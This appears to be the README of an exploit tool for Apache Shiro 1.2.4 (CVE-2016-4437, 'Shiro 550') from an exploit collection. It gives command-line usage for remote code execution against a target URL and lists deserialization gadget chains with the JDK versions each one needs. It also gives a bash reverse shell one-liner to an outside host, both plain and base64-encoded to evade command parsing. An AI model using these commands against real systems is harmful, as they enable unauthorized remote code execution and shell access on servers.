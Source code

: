 # Readme
```
+-------------------------------------------------------------------------------------------------------+
+ DES: By zhzyker as https://github.com/zhzyker/exphub                                                  +
+      Vuln Name: CVE-2016-4437 | Shiro 550  |  Shiro 1.2.4                                             +
+                                                                                                       +
+      CommonsCollections1 - commons-collections:3.1  - 3.1-3.2.1, Need <  jdk1.8                       +
+      CommonsCollections2 - commons-collections4:4.0 - 4.0,       Need <= jdk7u21                      +
+      CommonsCollections3 - commons-collections:3.1  - 3.1-3.2.1, Need <= jdk7u21                      +
+      CommonsCollections4 - commons-collections4:4.0 - 4.0,       Need <= jdk7u21                      +
+      CommonsCollections5 - commons-collections:3.1  - 3.1-3.2.1, Need == jdk1.8.x                     +
+      CommonsCollections6 - commons-collections:3.1  - 3.1-3.2.1, Need == jdk1.7 or jdk1.8             +
+      CommonsCollections7 - 3.1-3.2.1, Need == jdk1.7 or jdk1.8                                        +
+                                                                                                       +
+      Nc shell need encode command: http://www.jackson-t.ca/runtime-exec-payloads.html                 +
+      Original: bash -i >&/dev/tcp/1.1.1.1/233 0>&1                                                    +
+      Encoding: bash -c {echo,YmFzaCAtaSA+Ji9kZXYvdGNwLzEuMS4xLjEvMjMzIDA+JjE=}|{base64,-d}|{bash,-i}  +
+-------------------------------------------------------------------------------------------------------+
+ USE: python3 <filename> <url> <command>                                                               +
+ EXP: python3 shiro-1.2.4_rce.py http://1.1.1.1:8080 "touch tmp/exphub"                                +
+ VER: Apahce Shiro <= 1.2.4                                                                            +
+-------------------------------------------------------------------------------------------------------+

```

# RCE
```
python3 shiro-1.2.4_rce.py http://1.1.1.1:8080 "touch tmp/exphub"
```
### Linux Server
![Image](https://github.com/zhzyker/exphub/blob/master/shiro/image/linux-rce.gif)

### Windows Server
![Image](https://github.com/zhzyker/exphub/blob/master/shiro/image/windows-rce.gif)

# Nc Shell

Need encoding
http://www.jackson-t.ca/runtime-exec-payloads.html

Original: 
```
bash -i >&/dev/tcp/1.1.1.1/233 0>&1     
```

Encoding 
```
bash -c {echo,YmFzaCAtaSA+Ji9kZXYvdGNwLzEuMS4xLjEvMjMzIDA+JjE=}|{base64,-d}|{bash,-i}
```

![Image](https://github.com/zhzyker/exphub/blob/master/shiro/image/linux-shell.gif)
